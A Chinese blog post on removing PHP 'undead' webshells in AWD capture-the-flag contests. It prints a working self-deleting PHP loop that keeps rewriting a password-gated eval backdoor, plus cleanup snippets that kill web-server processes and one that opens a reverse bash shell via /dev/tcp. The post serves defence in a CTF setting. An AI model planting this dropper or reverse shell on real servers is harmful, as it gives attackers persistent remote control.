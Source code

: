 ```yaml
---
title: 干掉 PHP 不死马
date: 2019-04-04 23:20:56
tags: [awd, web]
---
```


在 AWD 模式下经常碰到不死马, 不干掉的话就会一直被偷 flag, 很难受. 所以研究一下怎么干掉.  

<!--more-->

## 什么是不死马

先说一下什么是不死马, 比如这种  

```php
<?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1) {
    $content = "<?php error_reporting(0);if(sha1(\$_POST['pwd'])==='%pwd%'){eval(\$_POST['cmd']);}?>";
    file_put_contents(".shell.php", $content);
    usleep(10000);
}
?>
```

简单来说有以下特性:  
* 访问后删除自己
* 即使断开连接也不会停止
* 驻留在内存中定时做某些事情, 比如上面这种就是不停的写 webshell

根据行为也可以将不死马分为两种, 一种是 while(1) 不 sleep, 占用服务器资源, 卡机子,  还有一种是 sleep, 悄悄的留后门  
如果不懂怎么干掉的话, 唯一的办法就是重启环境了, 而这在 AWD 中一般都是会倒扣不少分的...  

接下来了解一下 php 主流的两种运行模式 `php-fpm` 与 `php-apache` 这两种,  
`php-fpm` 适用于 `nginx` 和 `apache` 而 `php-apache` 自然是只能 `apache` 使用,  
其中 fpm 的性能更好, 但是配置较为复杂(其实也不是很复杂 233),  在 AWD 我只遇见过 `php-apache` 这种 0.0  
但是其实要干掉不死马, 步骤都差不多  

## 干掉不死马
### php-apache
在这种模式下, 会在 fork 的一个 apache 进程里面以低权限用户来处理 php, 如下图  
![](https://i.loli.net/2019/04/04/5ca626d682f9d.png)  
我们只要杀掉所以这些进程就行, 但在 AWD 中一般是没 root 权限的, 我们要干掉这些只能以低权限的身份来. 这里有两种办法  
1. 给自己在 web 目录下写一个 php, 里面是 
```php
<?php
system("kill `ps -ef | grep httpd | grep -v grep | awk '{print $2}'`");
```
如果觉得碰到不死马了就直接访问, 杀掉所有 httpd 进程, 因为权限不够, root 的不会被杀掉, 这个守护进程会自动再 fork 进程, 不用担心服务挂  

2. 写个 php 给自己弹个 shell, 在 shell 里面 killall, 这个更方便一点, 也更灵活
```php
<?php
system("bash -i >& /dev/tcp/127.0.0.1/23333 0>&1");
```

### php-fpm
其实跟上面差不多, 只是进程名不同, 因为 fpm 是独立的服务, 不同于上面 apache 里面直接调用 php 的 api  
![](https://i.loli.net/2019/04/05/5ca62d252ca42.png)  
```php
<?php
system("kill `ps -ef | grep php-fpm | grep -v grep | awk '{print $2}'`");
```